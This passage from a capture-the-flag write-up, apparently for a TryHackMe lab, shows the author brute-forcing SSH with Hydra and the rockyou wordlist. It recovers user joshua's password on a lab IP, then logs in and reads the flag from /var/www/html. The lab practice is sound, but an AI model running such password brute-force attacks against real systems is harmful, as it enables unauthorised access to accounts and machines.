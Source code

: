 ## Gaining SSH Access via Brute Force

Since **SSH** was open on port **22** , I attempted to brute-force a password for one of the discovered users. I used **Hydra**  with the popular `rockyou.txt` wordlist:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l joshua -P /usr/share/wordlists/rockyou.txt ssh://10.10.169.164
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-27 07:38:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.169.164:22/
[22][ssh] host: 10.10.169.164   login: joshua   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-27 07:38:19
```

After a short time, Hydra found valid credentials:

- Username: joshua

- Password: 123456


After successfully establishing an **SSH** session as the `joshua` user, the next step is to locate the final flag. According to the CTF creator's hint, the flag is hidden within the `/var/www/html` directory. I proceed to enumerate the files in this location and ultimately retrieve the final flag.

```console
joshua@filepath:/$ cd /var
joshua@filepath:/var$ ls
backups  crash  local  log   opt  snap   tmp
cache    lib    lock   mail  run  spool  www
joshua@filepath:/var$ cd www
joshua@filepath:/var/www$ ls
html
joshua@filepath:/var/www$ cd html
joshua@filepath:/var/www/html$ ls
505eb0fb8a9f32853b4d955e1f9123ea.txt  index.php    templates
api.php                               login.php    uploads
auth.php                              logout.php
dashboard.php                         profile.php
joshua@filepath:/var/www/html$ cat 505eb0fb8a9f32853b4d955e1f9123ea.txt
THM{505eb0fb8a9f32853b4d955e1f9123ea}
joshua@filepath:/var/www/html$ 
```